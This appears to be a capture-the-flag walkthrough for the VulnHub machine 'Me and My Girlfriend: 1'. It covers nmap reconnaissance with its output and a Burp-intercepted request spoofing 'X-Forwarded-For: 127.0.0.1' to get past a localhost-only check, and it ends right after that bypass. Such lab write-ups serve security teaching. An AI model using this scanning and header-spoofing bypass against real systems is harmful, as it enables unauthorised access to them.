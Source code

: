 # Me and My Girlfriend: 1
* URL: https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/
* Date release: 13 Dec 2019
* Author: [TW1C3](https://www.vulnhub.com/author/tw1c3,664/)
* Series: [Me and My Girlfriend](https://www.vulnhub.com/series/me-and-my-girlfriend,267/)

This VM tells us that there are a couple of lovers namely Alice and Bob, where the couple was originally very romantic, but since Alice worked at a private company, "Ceban Corp", something has changed from Alice's attitude towards Bob like something is "hidden", And Bob asks for your help to get what Alice is hiding and get full access to the company!

* Difficulty LevelBeginner
* Notes: there are 2 flag files
* Learning: Web Application | Simple Privilege Escalation

# Footprinting
We need more information about the target by
starting with, find out the ip address of the target by using Nmap

```console
nmap -F [ip address/mask]
```

The figure below shows the results:
<p align="center">
<img src="/meAndMyGf1/pic/target.png">
</p>

at this point, we can now use the web browser to access to target's web page. Follow by ***inspect element***. the result:

```html
Who are you? Hacker? Sorry This Site Can Only Be Accessed local!<!-- Maybe you can search how to use x-forwarded-for -->
```

As you can see, the create of this CTF gave use a hint that we should use **x-forwarded-for** get the first flag

to find **more** information about the target

```console
nmap -A -sV -O [ip address] > meAndMyGf.txt
```
Where:
* -sV = Version scanning
* -A = Version scanning
* -O = OS detection

We also put the result from nmap in a file. This will help us to save some time since we do not need to run this command to get target info again.

here is the result from runing the command above:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-31 13:24 EST
Nmap scan report for [ip address]
Host is up (0.00056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3b:26:4d:e4:a0:3b:f8:75:d9:6e:15:55:82:8c:71:97 (RSA)
|   256 8f:48:97:9b:55:11:5b:f1:6c:1d:b3:4a:bc:36:bd:b0 (ECDSA)
|_  256 d0:c3:02:a1:c4:c2:a8:ac:3b:84:ae:8f:e5:79:66:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:0D:53:C5 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms [ip address]

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.42 seconds
```

# Action
Fire up Burp Suit and get ready for some web application hacking! The hint was do somthing with **x-forwarded-for**

according to [this](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For). X-Forwarded-For or XFF can be spoof and use to bypass a simple authentication. Note that the website can only be accessed local. Which mean we can only access the website only when we enter the localhost or 127.0.0.1

At this point you can now guess, WE have to combine XFF and localhost.

Now try to visite the website when the brup suit is on and try to intercept the get request. Then add
```
X-Forwarded-For: 127.0.0.1
```
The request should look something like this
```
GET /?page=index HTTP/1.1
Host: [ip address]
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=03gbe8fmpkvdr31vaf2io6co62
Connection: close
Upgrade-Insecure-Requests: 1
```


WOOP WOOP! we are in !!!
<p align="center">
<img src="/meAndMyGf1/pic/home.png">
</p>